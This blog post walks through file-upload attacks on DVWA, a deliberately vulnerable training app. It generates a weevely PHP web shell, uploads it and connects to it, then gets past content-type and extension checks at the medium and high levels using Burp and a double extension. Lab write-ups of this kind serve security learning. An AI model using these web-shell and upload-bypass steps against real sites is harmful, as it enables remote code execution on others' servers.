 ```yaml
---
layout: post
title: Dam Vulnerable Web App File Upload
---
```


Exploiting the Dam Vulnerable Web App

# DVWA Upload LOW

When we upload a picture we see that is uploaded to http://10.0.2.4/dvwa/hackable/uploads/ .
Next we’re going to use a tool called weevely to generate php shell file to upload to the server.

weevely generate password /root/shell.php

Weevely is the name of the tool, generate creates the shell with a password called password and then stores it in the root folder under the name shell.php .
Next we take that shell and upload it, now we can see that it’s stored at http://10.0.2.4/dvwa/hackable/uploads/shell.php .  We then navigate to that page and now it’s activated so we go back to the console to access it.

weevely http://10.0.2.4/dvwa/hackable/uploads/shell.php password

[+] weevely 3.7.0

[+] Target:	10.0.2.4
[+] Session:	/root/.weevely/sessions/10.0.2.4/shell_1.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> 

Now we have access to the machine.
The full list of things we can do once we have access with weevely can be found here:
https://github.com/epinna/weevely3 .

# DVWA Upload MEDIUM

Now if we try to upload php files it doesn’t let us. 
To get around this we’re going to use burp suite by creating a new temporary project and configuring the browser to use burp suite as a proxy. 

If we navigate to the proxy tab and select intercept and turn intercept on once we’re on the file upload page. We rename the shell.php file to .jpg and upload it. 

Burp captures this request and we can see
-Disposition: form-data; name="uploaded"; filename="shell.jpg"

Content-Type: image/jpeg

Now we rename shell.jpg to shell.php but keep the content-type as image/jpeg. If you’re doing this after you’ve done the low security setting make sure you give it a different name.

Success we managed to upload shell.php to the server and now can access it with weevely the same way we did for the low setting.

# DVWA UPLOAD HIGH

If we try the same method again we can see that it doesn’t work. Now it’s checking the file type and the extension. We can still bypass this with burp suite by intercepting it. 
We know that it checks the content-type and the file extension. 

-Disposition: form-data; name="uploaded"; filename="shell.jpg"

Content-Type: image/jpeg

We can bypass this by modifying the shell.jpg to shell.php.jpg

#MITIGATION

Instead of writing out all the mitigations owasp provides a great source on this.

https://www.owasp.org/index.php/Unrestricted_File_Upload



